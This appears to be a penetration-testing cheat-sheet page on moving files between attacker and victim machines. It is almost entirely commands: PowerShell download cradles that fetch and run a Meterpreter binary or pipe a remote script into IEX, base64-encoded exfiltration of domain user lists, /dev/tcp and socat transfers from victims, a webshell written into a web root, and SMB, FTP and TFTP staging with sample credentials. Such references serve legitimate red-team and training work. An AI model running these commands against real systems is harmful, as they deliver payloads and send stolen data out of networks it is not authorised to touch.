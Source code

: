 # File Transfer

* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
* [https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle)

{% embed url="https://snovvcrash.github.io/2018/10/11/simple-http-servers.html" caption="Об HTTP-серверах для трансфера файлов в Linux" %}




## Base64

String to base64 and POST with PowerShell:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > IWR -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```

File to base64 with `certutil`:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Base64 file transfer from Linux to Windows:

```
$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```




## Hex

Compress a binary file and transfer it to Windows by copy-pasting commands into the console:

```
$ upx -9 file.exe
$ exe2hex -x file.exe -p file.cmd
$ cat file.cmd | xclip -i -sel c
```




## PowerShell

PowerShell upload file:

```
PS > (New-Object Net.WebClient).UploadFile("http://10.10.13.37/file.txt", "file.txt")
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```powershell
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.UseDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

PowerShell manually set proxy and upload file to remote HTTP server:

```powershell
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential("snovvcrash","Passw0rd!","megacorp.local");$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```

Another proxy-aware download cradle:

```powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem "HKU:\" -ErrorAction SilentlyContinue
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start=$key.Name.Substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy("http://$proxyAddr")
$wc = New-Object System.Net.WebClient
$wc.DownloadString("http://10.10.13.37/test.txt") | IEX
Remove-PSDrive -Name HKU -Force
```

Quicky get file:

```
PS > [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
PS > (Invoke-WebRequest -UseBasicParsing -Uri https://microsoft.com/ -UserAgent "Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko").RawContentLength
```




## /dev/tcp

Attacker is the sender:

```
# Sender:
root@kali:~$ tar -zcvf folder.tar.gz folder
root@kali:~$ nc -w3 -lvnp 1234 < folder.tar.gz
# Recipient:
www-data@victim:~$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:~$ tar -zxvf .folder.tar.gz
```

Victim is the sender:

```
# Recipient:
root@kali:~$ nc -w3 -lvnp 1234 > file.txt
# Sender:
www-data@victim:~$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## socat

Recipient (Attacker):

```
$ socat TCP-LISTEN:1337 OPEN:data.tar,create,append
```

Sender (Victim):

```
$ tar cf - /dev/shm/data | socat TCP:10.10.13.37:1337 -
```




## SMB



### smbserver.py

Start SMB server:

```
$ smbserver.py -smb2support share `pwd`
```

Mount SMB in Windows with `net use`:

```
$ smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
Cmd > net use Z: \\10.10.13.37\share
Cmd > net use Z: \\10.10.13.37\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
$ smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > New-PSDrive -Name Z -Root \\10.10.13.37\share -Credential $cred -PSProvider FileSystem
PS > cd Z:
```



### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```




## FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```




## TFTP

Send `file.exe` from Windows to Linux (TFTP client must be [enabled](https://teckangaroo.com/enable-tftp-windows-10/) on Windows):

```
$ sudo atftpd --daemon --bind 10.10.13.37 --port 69 ./tftp
Cmd > tftp -i 10.10.13.37 put file.exe
$ sudo pkill atftpd
```




## ICMP

- [https://github.com/icyguider/ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools)
- [https://snovvcrash.github.io/2019/04/05/htb-mischief.html](https://snovvcrash.github.io/2019/04/05/htb-mischief.html#icmpshellpy)




## Exfiltration / Infiltration

- [https://xakep.ru/2022/09/22/infilltration-and-exfiltration/](https://xakep.ru/2022/09/22/infilltration-and-exfiltration/)
- [https://github.com/s0i37/exfiltrate](https://github.com/s0i37/exfiltrate)




## Tools



### http-server

- [https://github.com/http-party/http-server](https://github.com/http-party/http-server)

```
$ sudo apt install npm -y
$ sudo npm install http-server -g
$ sudo http-server -d false -p 443 -S -C /etc/letsencrypt/live/example.com/cert.pem -K /etc/letsencrypt/live/example.com/privkey.pem --log-ip | tee http-server.log
```



### goshs

- [https://github.com/patrickhener/goshs](https://github.com/patrickhener/goshs)

```
$ eget -qs linux/amd64 "patrickhener/goshs" --to ~/tools/goshs
$ sudo ~/tools/goshs/goshs -ro -si -p 443 -s -sc /etc/letsencrypt/live/example.com/cert.pem -sk /etc/letsencrypt/live/example.com/privkey.pem -V | tee goshs.log
```



### simplehttpserver

- [https://github.com/projectdiscovery/simplehttpserver](https://github.com/projectdiscovery/simplehttpserver)

```
$ eget -qs linux/amd64 "projectdiscovery/simplehttpserver" --to ~/tools/pd
$ sudo ~/tools/pd/simplehttpserver -listen 10.10.13.37:1337 -path `pwd` -upload -https -cert /etc/letsencrypt/live/example.com/fullchain.pem -key /etc/letsencrypt/live/example.com/privkey.pem -domain example.com -basic-auth 'snovvcrash:Passw0rd!' -max-file-size 100
```
